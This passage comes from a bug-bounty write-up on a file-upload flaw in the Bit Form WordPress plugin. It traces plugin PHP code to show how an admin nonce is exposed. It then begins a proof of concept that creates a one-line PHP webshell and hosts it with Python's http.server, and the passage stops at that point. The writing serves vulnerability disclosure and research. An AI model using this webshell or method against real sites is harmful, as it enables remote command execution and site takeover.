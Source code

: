 In here, we can see that class `Admin_Bar` public method `AdminAssets` uses WordPress function `wp_enqueue_script` to register a JavaScript file, and its handle is called `index-BITFORM-MODULE`. In this JavaScript, it contains a new nonce that binds to action `bitforms_save`, which is generated via `wp_create_nonce`.

Again, tracing back how this method is being called, we can find that this is the callback method of action `admin_enqueue_scripts`:

```php
class Admin_Bar
{
  public function register()
  {
    [...]
    add_action('admin_enqueue_scripts', [$this, 'AdminAssets']);
  }
```

If we read [the documentation of WordPress hook `admin_enqueue_scripts`](https://developer.wordpress.org/reference/hooks/admin_enqueue_scripts/), it says "Fires when enqueuing scripts for all admin pages."

Again, tracing back how this public method `register` is being called, we can find that this method is called via class `Hooks` public method `init_classes`:

```php
[...]
use BitCode\BitForm\Core\Capability\Request;
[...]

class Hooks
{
  [...]
  public static function init_classes()
  {
    if (Request::Check('admin')) {
      (new Admin_Bar())->register();
    }
    [...]
  }
```

Eventually, we'll find that we can get a valid nonce in the **Bit Form admin page**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240821204556.png)

Nice! We can now test for it!

First, we host a PHP webshell file via Python module `http.server`:

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:48:30(HKT)]
└> ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.69.96.69  netmask 255.255.255.0  broadcast 10.69.96.255
        [...]
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:48:32(HKT)]
└> echo -n '<?php system($_GET["cmd"]); ?>' > webshell.php
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:48:52(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
